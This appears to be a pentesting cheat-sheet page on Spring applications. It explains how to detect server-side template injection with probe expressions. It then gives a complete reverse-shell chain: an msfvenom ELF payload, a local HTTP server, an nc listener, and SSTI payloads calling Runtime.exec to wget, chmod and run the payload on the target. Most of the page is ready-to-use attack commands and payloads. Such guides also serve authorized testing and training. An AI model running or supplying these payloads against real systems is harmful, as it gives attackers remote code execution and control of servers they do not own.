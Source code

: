 ```yaml
---
title: Spring Pentesting
desc:
tags: [Boot, Java, Reverse, Shell, Spring, Spring4Shell, SpringBoot, SSTI, Web]
alts: []
render_with_liquid: true
---
```


## Reverse Shell with Server-Side Template Injection (SSTI)

1. **SSTI Discovery**

    If there is an input form, such as a search form, or URL parameter which the parameter is reflected in the website, you may be able to find the vulnerability to the server-side template injection.

    Try them:

    ```java
    2*2
    #{2*2}
    *{2*2}
    ```

    Then you can also check more about that.

    ```java
    {"dfd".replace("d", "x")}
    #{"dfd".replace("d", "x")}
    *{"dfd".replace("d", "x")}

    // ---------------------------------------

    // the desired output of the above...
    "xfx"
    ```

2. **Reverse Shell**

    First generate the payload of the reverse shell which will be downloaded from the website.

    ```sh
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=<local-ip> LPORT=<local-port> -f elf > r.elf
    ```

    Start a local web server to allow the website to download the payload named “r.elf”

    ```sh
    python3 -m http.server 8000
    ```

    In another terminal, open listener for getting the reverse shell.

    ```sh
    nc -lvnp <local-port>
    ```

    In the target website,

    ```java
    *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://<local-ip>:8000/r.elf")}

    *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}

    *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}
    ```

    Finally you should see to get the shell